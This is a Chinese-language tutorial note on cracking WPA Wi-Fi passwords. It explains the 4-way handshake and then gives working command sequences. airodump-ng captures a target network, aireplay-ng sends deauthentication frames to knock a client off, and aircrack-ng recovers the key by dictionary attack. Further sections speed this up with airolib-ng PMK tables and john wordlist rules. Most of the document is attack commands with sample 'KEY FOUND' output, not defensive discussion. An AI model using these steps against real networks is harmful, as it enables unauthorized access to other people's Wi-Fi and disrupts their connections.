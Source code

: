 WPA Crack
===
🔙 [MENU README](../README.md)

# 原理
![](../_src/WPA_Handshake.png)
![](../_src/WPACrack.png)
```
1. 攻擊者傳送deauthentication(不需要任何權限)，打掉Client，在客戶端重新連接時得到4-Handshake內的資訊
2. PTK = PMK + ANounce + SNounce + MAC1 + MAC2
   PTK = Hash(ESSID + <PSK> + 4096)
         + ANounce + SNounce + MAC1 + MAC2
3. 所有資訊都可以從4-Handshake內得到，除了PSK也就是WiFi密碼，只要嘗試用字典檔去爆到MIC = HASH(PTK)相符合
```


# Dictionary
Recon
```bash
airodump-ng wlan0mon
airodump-ng wlan0mon -c 1 --bssid $TargetAPBSSID -w wpa.cap # 持續記錄
# 找到用戶端將他deauthentication

# deauthentication
aireplay-ng -0 2 -a $TargetAPBSSID -c $ClientBSSID wlan0mon
# 可以觀察客戶端會馬上斷掉並再次連接
# airodump-ng會抓到握手包，即可停止
```
Dictionary Crack
```bash
aircrack-ng -w /usr/share/john/password.lst wpa.cap

KEY FOUND! [ 1234567890 ]
```

---

# Airolib-ng
字典破解實在耗時，這是一個提速工具(靠Rainbow Table)
原本PMK計算非常緩慢，但其實給定網路名稱跟密碼後PMK是不變的
Airolib-ng透過預先計算組合(獲得PMK)，來加速破解
```bash
# 創建一個txt寫入想要破解的ESSID
echo KALI_Wireless_JLY > essid.txt

# 將txt導入數據庫
airolib-ng essid_db --import essid essid.txt
airolib-ng essid_db --stats

# 導入密碼表
airolib-ng essid_db --import passwd /usr/share/john/password.lst
airolib-ng essid_db --stats

# 先計算PMK以節省破解時間
airolib-ng essid_db --batch

# Crack
airolib-ng -r essid_db wpa.cap
```

---

# John the Ripper
創建Custom Dictionary
```bash
sudo vim /etc/john/john.conf


Try the second half of split passwords
-s **
-s-c x** M l Q
===> $[0-9]$[0-9]$[0-9]$[0-9] ===> 自動補齊


john --wordlist=PasswordDictionary.txt --rules -stdout 
```
attack
```bash
airodump-ng wlan0mon -c 1 --bssid $TargetAPBSSID -w wpa.cap # 持續記錄
# deauthentication客戶連接兩次
aireplay-ng -0 2 -a $TargetAPBSSID -c $ClientBSSID wlan0mon
```
crack dynamic by john
```bash
john --wordlist=PasswordDictionary.txt --rules -stdout | aircrack-ng -e $TargetAP_SSID -w - wpa.cap

# KEY FOUND! [........]
```